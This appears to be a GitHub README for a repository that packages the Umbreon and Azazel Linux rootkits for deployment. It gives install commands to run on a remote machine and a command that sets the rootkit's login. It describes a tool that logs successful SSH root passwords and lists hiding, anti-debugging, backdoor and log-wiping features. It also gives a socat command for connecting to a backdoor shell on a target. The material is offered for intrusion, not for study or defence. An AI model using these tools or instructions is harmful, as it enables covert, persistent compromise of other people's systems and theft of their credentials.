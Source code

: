 All Rootkits are heavely encrypted and useless without the cstk script
#########################
# Umbreon-Rootkit usage #
#########################

On remote machine run the Umbreon-Rootkit.sh script
```bash
bash Umbreon-Rootkit.sh
```
Umbreon Rootkit
------------------------------------------------------------------------------------------------------------------------------
Dependencies: OpenSSL binaries, libs, headers (or a smart user)
Password hashing format is Whirlpool. There's a tool included in utils.
The installer actually uses this, but your mileage may vary compiling it
on strange systems. If you run into issues just edit the installer script a bit.
Bring a static-compiled pwgen and unfuck if you're desperate to get it working
------------------------------------------------------------------------------------------------------------------------------
> **Note:** These next 2 commands run when you started the Umbreon-Rootkit.sh script
bash setup
bash root.sh [USERNAME] [PASSWORD] - This will set the login to the rootkit user
------------------------------------------------------------------------------------------------------------------------------
Extra Files:
portchecker | checks specified port
promptlog | successful SSH root passwords
------------------------------------------------------------------------------------------------------------------------------
To Fix Server If #RIPed
compile and run utils/unfuck.c

################
# azazel usage #
################
On remote machine run the azazel.sh script
```bash
bash azazel.sh
```
Azazel is a userland rootkit based off of the original LD_PRELOAD technique from Jynx rootkit.  It is more robust and has additional features, and focuses heavily around anti-debugging and anti-detection.

### Features
* Anti-debugging
* Avoids unhide, lsof, ps, ldd detection
* Hides files and directories
* Hides remote connections
* Hides processes
* Hides logins
* PCAP hooks avoids local sniffing
* Two accept backdoors.
 * [Crypthook](https://github.com/chokepoint/CryptHook) encrypted accept() backdoor -- Full PTY
 * Plaintext accept() backdoor           -- Full PTY
* PAM backdoor for local privesc and remote entry
* Log cleanup for utmp/wtmp entries based on pty

Using netcat to communicate with a remote PTY isn't the best idea. See below for a better PTY client written by [InfoDox](https://github.com/infodox), or use socat with a command similar to the following and then just paste the password into the session, otherwise socat send the first char making the passwords not match.

> socat -,raw,echo=0 TCP:target:port,bind=:61040

### Helper Links
* [Better PTY Client](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_shell_handler.py)

